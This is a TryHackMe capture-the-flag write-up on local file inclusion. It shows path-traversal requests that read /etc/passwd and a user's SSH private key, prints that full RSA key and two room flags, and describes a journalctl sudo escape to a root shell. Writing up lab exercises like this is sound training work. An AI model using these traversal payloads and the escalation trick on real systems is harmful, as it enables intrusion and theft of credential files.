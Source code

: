 ```yaml
---
title: Write-Up [THM] LFI 
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "LFI"
description: "It's a write-up about the room : [Try Hack Me - Room : LFI]"
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI]

# [Task 2] - Getting user access via LFI

*  	Look around the website. What is the name of the parameter you found on the website? 
Navigating the page, after click the “Leave a Review” button yeilded a field in the address bar `/home?page=about`. So, the name of the parameter is `page`.

* What is the name of the user on the system?

We entered : `http://10.10.147.195/home?page=../../../../etc/passwd` and found the user **falcon**.  
`falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin`

* Name of the file which can give you access to falcon's account on the system? **id_rsa**.

In Burp Suite, in the repeater :  
`GET /home?page=../../../../home/falcon/.ssh/id_rsa HTTP/1.1`.   

We found the RSA private key :  

``` 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/

1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

We copied that in a *falcon_rsa* file and changed privileges of the file `chmod 600 falcon_rsa`.  
After that, in the terminal we used ssh to connect : `ssh -i falcon_rsa falcon@ip_machine`.

We used `ls`to see the differents files in the directory. We found `user.txt`.  
Therefore, we read this one `cat user.txt`. We found the flag **B8LEGIF049JT4RTVWUG4**.

# [Task 3] - Escalating your privileges to root

* What can falcon run as root? 

We used `sudo -l` to know how to run as root and the output was :

```
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```

So we used : `ls -l /bin/journaltcl`

* What is the root flag?

With gtfobins, we found that : `!/bin/sh` enabled to used shell as root.  
Therefore we searched the root directory : `find /root`. We found `root/root.txt` and used the command `cat`to see the flag : **H1EQRK5XEX140H2KMO08**. 